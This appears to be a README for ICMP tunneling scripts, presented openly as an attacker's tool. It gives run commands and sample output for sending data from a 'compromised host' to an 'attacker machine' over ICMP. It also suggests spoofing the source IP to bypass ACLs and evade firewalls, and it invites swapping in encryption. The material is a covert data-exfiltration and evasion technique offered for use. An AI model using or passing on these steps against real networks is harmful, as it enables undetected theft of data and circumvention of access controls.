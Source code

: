 # ICMP Tunneling Scripts by x3dnesse

In order to use these scripts, root privileges are required and a python installation must be present on the victim machine.

What better way to avoid firewall controls than the usage of something as common as ICMP!

#### Script Usage

To use the scripts correctly, please do the following

On the compromised host

```
sudo python3 icmp_tunnel_sender.py -s 10.30.35.1 -a 10.30.35.93 -d 'hello from the other side' -c 5
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
```

On the receiving (attacker) machine

```
sudo python3 icmp_tunnel_receiver.py
Received 36 bytes from ('10.30.35.1', 0)
b'aiojwdijawiodjoaiwjdiajwodijoaiwd'
Decoded data: hello from the other side
```

#### Dependancies

1. Python Scapy

#### A Note on Source and Destination IP Addresses

Of course, you will want to make the destination IP address something you control, otherwise the ICMP requests will be lost in transit.

As for the Source IP, you can make this whatever you would like. Maybe you need to make it an IP from a subnet higher than you to bypass the ACL. Alas, this is totally up to you and you can spoof the source to whatever you wish.

#### Where is this script helpful?

Really anywhere, feel free to change the encoder to something you like. Maybe even change it to an AES cipher. The principle stays the same, you are sending data via ICMP requests and receiving and decoding/decrypting it!











